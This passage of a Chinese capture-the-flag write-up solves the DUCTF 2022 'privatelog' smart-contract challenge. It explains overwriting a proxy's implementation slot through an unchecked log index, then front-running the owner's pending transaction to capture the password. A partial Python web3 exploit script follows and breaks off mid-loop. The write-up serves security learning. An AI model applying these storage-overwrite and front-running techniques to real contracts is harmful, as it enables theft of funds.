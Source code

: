     print(w3.eth.get_balance(log_addr))
    print(w3.eth.get_balance(proxy_addr))

    # 0
    # 100000000000000000000
    ```

- `updateLogEntry()` 不检查 `logIndex`，而 `sstore(addr, val)` 可以将 `val` 写入 `addr`，可以借此来修改逻辑合约的地址
    - `keccak256(p, n)` 即 `keccak(mem[p…(p+n)))`，`mem[0, 20)` 对应 `logEntries.slot`，那么 `keccak256(0x00, 0x20)` 即 `keccak(2)`（slot 0 `Initializable` 的变量，slot 1 `secretHash`）
    - `keccak256(2)` 大于 `_IMPLEMENTATION_SLOT`，需要修改的 `logIndex` 为 $2^{256}$ - keccak256(2) + `_IMPLEMENTATION_SLOT`
- 不过，`logEntry` 为 `string` 类型，存储方式与 `address` 不同
    - 若字符串长度不超过 31 字节，将以 higher-order 存储，且最低字节存储 `length * 2`，如字符串 `hello` 将存储为 `0x68656c6c6f00000000000000000000000000000000000000000000000000000a`，而地址类型以 lower-order 存储
    - `logEntry` 最长支持 31 字节，那么最低字节是 `0x3e`，因此用于转移资金的逻辑合约地址最后 1 字节应为 `0x3e`
- 接下来考虑如何获得 `updateLogEntry()` 的控制权。无论 `createLogEntry()` 或 `updateLogEntry()` 都需要知道当前的密码，并传入新密码的哈希。但 `owner` 每分钟都会调用 `createLogEntry()`，而每 23s 才产生一个新区块，可以通过 `pending` 的交易获得密码，并以更高的汽油费取得优先写入权，从而能够使用 `updateLogEntry()`

### Exploit

```py
from web3 import Web3
from web3.middleware import geth_poa_middleware
from eth_abi import decode_abi
from eth_utils import keccak, to_bytes, to_checksum_address
from solcx import compile_source
import requests, json, rlp

def transact(func, gas=1000000, gas_price=None):
    tx = account.sign_transaction(eval(func).buildTransaction({
        'chainId': w3.eth.chain_id,
        'nonce': w3.eth.get_transaction_count(account.address),
        'gas': gas,
        'gasPrice': gas_price if gas_price else w3.eth.gas_price,
    })).rawTransaction
    tx_hash = w3.eth.send_raw_transaction(tx).hex()
    return w3.eth.wait_for_transaction_receipt(tx_hash)

base_id = 'fd313a3613eb393b'

w3 = Web3(Web3.HTTPProvider(f"https://blockchain-privatelog-{base_id}-eth.2022.ductf.dev"))
w3.middleware_onion.inject(geth_poa_middleware, layer=0)

info = json.loads(requests.get(f'https://blockchain-privatelog-{base_id}.2022.ductf.dev/challenge').content)

account = w3.eth.account.from_key(info['player_wallet']['private_key'])
log_addr = info['contract_address'][0]['address']
proxy_addr = info['contract_address'][1]['address']

log_abi = open('abi.json').read()

contract_log = w3.eth.contract(address=proxy_addr, abi=log_abi)

tx_filter = w3.eth.filter('pending')
newHash = w3.solidityKeccak(['string'], ['password'])
while True:
	if tx_hashes := tx_filter.get_new_entries():
		tx = w3.eth.get_transaction(tx_hashes[0])
```

[^1]: [ERC1967Upgrade - _IMPLEMENTATION_SLOT](https://github1s.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/ERC1967/ERC1967Upgrade.sol#L28)